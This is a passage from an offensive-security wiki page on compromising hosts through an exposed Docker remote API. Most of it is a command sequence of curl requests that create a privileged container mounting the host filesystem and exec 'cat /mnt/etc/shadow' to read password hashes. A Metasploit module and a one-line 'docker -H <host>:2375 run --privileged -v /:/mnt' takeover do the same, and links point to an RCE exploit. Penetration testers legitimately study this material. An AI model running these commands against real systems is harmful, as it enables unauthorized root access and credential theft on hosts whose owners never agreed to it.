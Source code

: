 ```bash
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket2376/containers/create?name=test -d '{"Image":"alpine", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}'
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/start?name=test
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "cat /mnt/etc/shadow"]}'
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/exec/140e09471b157aa222a5c8783028524540ab5a55713cbfcb195e6d5e9d8079c6/start -d '{}'
#Stop the container
curl –insecure -vv -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/stop
#Delete stopped containers
curl –insecure -vv -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/prune
```

If you want more information about this, more information is available where I copied the commands from: [https://securityboulevard.com/2019/02/abusing-docker-api-socket/](https://securityboulevard.com/2019/02/abusing-docker-api-socket/)

#### Automatic

```bash
msf> use exploit/linux/http/docker_daemon_tcp
nmap -sV --script "docker-*" -p <PORT> <IP>
```

### Compromising

In the following page you can find ways to **escape from a docker container**:

{{#ref}}
../linux-hardening/privilege-escalation/docker-security/
{{#endref}}

Abusing this it's possible to escape form a container, you could run a weak container in the remote machine, escape from it, and compromise the machine:

```bash
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
cat /mnt/etc/shadow
```

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Docker%20API%20RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Docker%20API%20RCE.py)

### Privilege Escalation

If you are inside a host that is using docker, you may [**read this information to try to elevate privileges**](../linux-hardening/privilege-escalation/index.html#writable-docker-socket).

### Discovering secrets in running Docker containers
